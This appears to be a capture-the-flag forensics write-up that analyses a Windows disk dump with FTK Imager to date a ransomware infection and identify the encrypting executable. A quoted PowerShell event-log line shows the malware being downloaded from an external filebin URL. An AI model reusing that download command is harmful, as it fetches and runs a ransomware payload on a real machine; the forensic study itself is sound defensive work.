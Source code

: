 ## Solution:

![alt text](image-13.png)

We are given an `.ad1` file which is a dump taken from a windows machine. We can use `FTK Imager` to open the dump file and start our analysis.

Answering the questions...

### Question 1

Q1) What is the day and time that the infection was started ? 

Format : "yyyy:mm:dd_hh:mm"

Going through the files present in the system we can see that it was all modified at the time of infection answering our first question.

```
Answer Q1: 2024:02:24_00:37
```

### Question 2 

Q2) There are encrypted files, what is the algorithm used to encrypt them and what files store the decryption vectors?

Format : algorithm-used_filename

On parsing the evnt logs we can see that there was executable downloaded from `https://filebin.net/lfc6u585h3jmqfpp/ware`  saved as TwCSXWiv.exe and executed. 
```
105	105	2024-02-24 00:37:41	403	Info	PowerShell	Windows PowerShell	0	BruceWayne		Engine state is changed from Available to Stopped			HostApplication=PowerShell -Command iwr 'https://filebin.net/lfc6u585h3jmqfpp/ware' -OutFile TwCSXWiv.exe
```

It should be the ransomware as its execution time and the time the all the files got encrypted was around the same time. We can search for the exe and extract it.

Upon doing `strings` on `TwCSXWiv.exe`, we can see that it is a **python3.10** binary.

```
>>> strings TwCSXWiv.exe | grep -i python
Py_SetPythonHome
Failed to get address for Py_SetPythonHome
Error loading Python DLL '%s'.
PYTHONUTF8
Invalid value for PYTHONUTF8=%s; disabling utf-8 mode!
Error detected starting Python VM.
bpython3.dll
bpython310.dll
6python310.dll
```
